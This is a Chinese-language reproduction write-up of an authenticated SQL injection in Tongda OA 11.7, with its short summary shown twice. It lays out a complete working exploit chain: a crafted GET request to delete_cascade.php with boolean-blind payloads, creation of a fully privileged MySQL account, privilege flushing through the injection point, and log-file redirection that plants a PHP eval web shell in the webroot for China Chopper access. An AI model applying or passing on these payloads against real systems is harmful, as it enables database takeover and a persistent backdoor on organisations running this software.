




#### 漏洞影响版本

通达oa 11.7 利用条件:需要账号登录

#### POC

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe 

2、condition\_cascade参数存在布尔盲注  

3.经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点 #当字符相等时，不报错，错误时报错 

4、通过添加用户at666，密码为abcABC@123  

5、使用Navicat Premium连接数据库 

6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限 [提权](https://www.bylibrary.cn/wp-content/uploads/2020/09/提权.txt) 

7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges; 

8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.\* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION 

9、然后写shell 

10、菜刀连接


=========================================================================

**通达OA 11.7 后台sql注入漏洞复现**

**一、****漏洞描述**

 通达OA 11.7存在sql注入

**二、漏洞影响版本**

 通达oa 11.7

利用条件:需要账号登录 

**三、漏洞复现**

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe，点击安装

2、condition_cascade参数存在布尔盲注

POC：

[](javascript:void(0);)

```
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99)) HTTP/1.1
Host: 192.168.77.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://192.168.77.137/general/index.php?isIE=0&modify_pwd=0
Cookie: PHPSESSID=ebpjtm5tqh5tvida5keba73fr0; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c71fa06d
DNT: 1
Connection: close
```

[](javascript:void(0);)

3、经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点  #当字符相等时，不报错，错误时报错


4、通过添加用户at666，密码为abcABC@123

grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION


5、使用Navicat Premium连接数据库


6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限

UPDATE `mysql`.`user` SET `Password` =  '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y',  `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y',  `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y',  `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y',  `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y',  `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y',  `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y',  `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '',  `max_questions` = 0, `max_updates` = 0, `max_connections` = 0,  `max_user_connections` = 0, `plugin` = 'mysql_native_password',  `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` =  Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));



7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的

general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;



8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION




9、然后写shell

方法一:

select @@basedir;

set global slow_query_log=on;

set global slow_query_log_file='C:/tongda11.7/webroot/test.php';

select '<?php eval($_POST[x]);?>' or sleep(11);

方法二:

select @@basedir;

set global general_log = on;

set global general_log_file ='C:/tongda11.7/webroot/test2.php';

select '<?php eval($_POST[test2]);?>';

show variables like '%general%';




10、菜刀连接


 

 